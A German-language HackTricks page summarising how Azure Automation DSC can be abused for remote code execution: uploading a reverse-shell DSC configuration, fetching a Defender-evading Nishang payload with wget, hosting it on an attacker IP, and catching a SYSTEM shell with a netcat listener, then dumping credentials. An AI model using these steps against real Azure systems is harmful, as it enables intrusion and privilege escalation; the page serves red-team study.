 # Az - State Configuration RCE

{% hint style="success" %}
Lernen & üben Sie AWS-Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

**Überprüfen Sie den vollständigen Beitrag unter: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Zusammenfassung der Vorbereitung und Schritte für die Remote-Server (C2)-Infrastruktur

#### Überblick
Der Prozess beinhaltet die Einrichtung einer Remote-Server-Infrastruktur, um ein modifiziertes Nishang `Invoke-PowerShellTcp.ps1` Payload namens `RevPS.ps1` zu hosten, der entwickelt wurde, um Windows Defender zu umgehen. Der Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python-HTTP-Server bereitgestellt. Die Operation wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen
- **Benötigte Dateien:** Zwei PowerShell-Skripte werden benötigt:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC)-Datei, die den Payload abruft und ausführt. Sie ist von [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) erhältlich.
2. `push_reverse_shell_config.ps1`: Ein Skript zum Veröffentlichen der Konfiguration auf der VM, verfügbar auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen
- Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung auf das Azure Storage-Konto vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Setzen des Speicherkontexts & Hochladen
- Die komprimierte Konfigurationsdatei wird mithilfe des Azure-Befehls "Set-AzStorageBlobContent" in einen vordefinierten Azure-Speichercontainer, azure-pentest, hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Vorbereitung des Kali-Box
- Der Kali-Server lädt das RevPS.ps1-Payload von einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen
- Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an den angegebenen Speicherort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten
- Ein Python SimpleHTTPServer wird gestartet, um den Payload zu hosten, zusammen mit einem Netcat-Listener zum Erfassen eingehender Verbindungen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Die geplante Aufgabe führt das Payload aus und erlangt SYSTEM-Level-Berechtigungen.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. das Dumpen von Anmeldeinformationen oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zum kontinuierlichen Lernen und zur Kreativität im Bereich der Azure Automation DSC.
